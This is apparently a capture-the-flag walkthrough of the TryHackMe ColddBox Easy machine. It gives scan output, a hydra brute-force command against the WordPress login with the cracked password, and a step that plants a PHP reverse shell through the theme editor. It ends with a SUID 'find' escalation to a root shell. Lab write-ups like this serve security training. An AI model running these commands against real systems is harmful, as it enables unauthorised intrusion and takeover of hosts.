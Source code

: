 ```yaml
---
layout: post
title: Walkthrough - Colddbox - Easy
published: true
---
```


Security, Box, PrivEsc, Wordpress. An easy level machine with multiple ways to escalate privileges.

[https://tryhackme.com/room/colddboxeasy](https://tryhackme.com/room/colddboxeasy)

* * *

## Notes

- nmap scans

```shell
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- gobuster initial

```shell
/wp-content           (Status: 301) [Size: 317] [--> http://10.10.210.65/wp-content/]
/license.txt          (Status: 200) [Size: 19930]                                    
/wp-includes          (Status: 301) [Size: 318] [--> http://10.10.210.65/wp-includes/]
/wp-admin             (Status: 301) [Size: 315] [--> http://10.10.210.65/wp-admin/]   
/hidden               (Status: 301) [Size: 313] [--> http://10.10.210.65/hidden/]     
/server-status        (Status: 403) [Size: 277]        
```

- ``/hidden/`` gives us some credentials. C0ldd, hugo, philip.
- ``wpscan --url http://10.10.210.65 -e vp --api-token``
- ``wpxploit`` - ``./exploit.py http://10.10.210.65/ 5 15`` with C0ldd and 0 wordlist we get access.
- ``hydra -l C0ldd -P /usr/share/seclists/Passwords/rockyou.txt 10.10.210.65 http-post-form -m '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+in:The password you entered'``
- ``[80][http-post-form] host: 10.10.210.65   login: C0ldd   password: 9876543210``

* * * 

## What is the user flag?

- login to wp-admin with the credentials and use the appearance editor to edit the main index template - index.php with php monkey reverse shell. 

![](/assets/c0ld01.png)

- ``find / -perm -u=s -type f 2>/dev/null``
- ``/usr/bin/find`` has suid set
- ``find . -exec /bin/sh -p \; -quit`` to gain root.

* * * 

## What is the root flag?

- ``cat /root/root.txt``

* * * 

